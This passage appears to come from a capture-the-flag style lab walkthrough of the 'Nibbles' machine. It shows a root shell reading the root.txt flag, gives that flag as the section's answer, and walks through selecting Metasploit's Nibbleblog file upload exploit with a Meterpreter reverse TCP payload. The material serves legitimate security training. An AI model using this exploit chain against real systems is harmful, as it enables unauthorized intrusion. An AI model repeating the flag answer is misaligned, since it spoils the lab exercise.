 ### Questions
Answer the question(s) below to complete this Section and earn cubes!

Escalate privileges and submit the root.txt flag.
```
> de5e5d6619862a8aa5b9b212314e0cdd
```

We find the flag inside the `/root` directory:
```
root@Nibbles:/home/nibbler/personal/stuff# cd /root/
lroot@Nibbles:~# ls -al 
total 28
drwx------  4 root root 4096 Mar 12  2021 .
drwxr-xr-x 23 root root 4096 May 24  2021 ..
-rw-------  1 root root    0 Dec 29  2017 .bash_history
-rw-r--r--  1 root root 3106 Oct 22  2015 .bashrc
drwx------  2 root root 4096 Dec 10  2017 .cache
drwxr-xr-x  2 root root 4096 Dec 10  2017 .nano
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
-rwx------  1 root root   33 Mar 12  2021 root.txt
root@Nibbles:~# cat root.txt 
de5e5d6619862a8aa5b9b212314e0cdd
root@Nibbles:~# 
```

## Alternate User Method: Metasploit
Since we already found an exploit for Metasploit, we can also use it to get a shell on the system. The exploits works the same way as we did it by hand earlier.

The msf call can look like the following:
```
msf6 > search nibble

Matching Modules
================

   #  Name                                       Disclosure Date  Rank       Check  Description
   -  ----                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/nibbleblog_file_upload  2015-09-01       excellent  Yes    Nibbleblog File Upload Vulnerability


Interact with a module by name or index. For example info 0, use 0 or use exploit/multi/http/nibbleblog_file_upload

msf6 > use 0
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(multi/http/nibbleblog_file_upload) > show options

Module options (exploit/multi/http/nibbleblog_file_upload):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       The password to authenticate with
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the web application
   USERNAME                    yes       The username to authenticate with
   VHOST                       no        HTTP server virtual host

```